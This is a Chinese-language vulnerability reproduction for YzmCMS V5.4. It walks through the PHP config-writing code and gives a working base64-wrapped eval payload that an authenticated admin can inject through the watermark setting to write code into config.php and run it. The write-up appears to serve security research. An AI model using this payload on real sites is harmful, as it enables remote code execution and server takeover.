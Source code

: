 YzmCMS V5.4 后台getshell（二）
==============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.4

三、复现过程
------------

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![](resource/YzmCMSV5.4后台getshell(二)/media/rId25.png)

该函数位于文件`application/admin/common/function/function.php`

    function set_config($config) {
        $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
        if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
        $pattern = $replacement = array();
        foreach($config as $k=>$v) {
            $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
            $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
        }
        $str = file_get_contents($configfile);
        $str = preg_replace($pattern, $replacement, $str);
        return file_put_contents($configfile, $str, LOCK_EX);       
    }

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

    public function save() {
            yzm_base::load_common('function/function.php', 'admin');
            if(isset($_POST['dosubmit'])){
                if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                    if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
                }
                if(isset($_POST['upload_types'])){
                    if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
                }
                $arr = array();
                $config = D('config');
                foreach($_POST as $key => $value){
                    if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                        $value = safe_replace(trim($value));
                        $arr[$key] = $value;
                    }else{
                        if($key!='site_code'){
                            $value = htmlspecialchars($value);
                        }
                    }
                    $config->update(array('value'=>$value), array('name'=>$key));
                }
                set_config($arr);
                delcache('configs');
                showmsg(L('operation_success'), '', 1);
            }
        }

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

    function safe_replace($string) {
        $string = str_replace('%20','',$string);
        $string = str_replace('%27','',$string);
        $string = str_replace('%2527','',$string);
        $string = str_replace('*','',$string);
        $string = str_replace('"','',$string);
        $string = str_replace("'",'',$string);
        $string = str_replace(';','',$string);
        $string = str_replace('<','<',$string);
        $string = str_replace('>','>',$string);
        $string = str_replace("{",'',$string);
        $string = str_replace('}','',$string);
        $string = str_replace('\\','',$string);
        return $string;
    }

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![](resource/YzmCMSV5.4后台getshell(二)/media/rId27.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64\_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

    $1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1

先查看配置文件原先的内容

![](resource/YzmCMSV5.4后台getshell(二)/media/rId28.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![](resource/YzmCMSV5.4后台getshell(二)/media/rId29.png)

提交以后可以发现已经成功执行命令了

![](resource/YzmCMSV5.4后台getshell(二)/media/rId30.png)

再回去查看配置文件可以看到代码也写入了

![](resource/YzmCMSV5.4后台getshell(二)/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7231\#toc-5
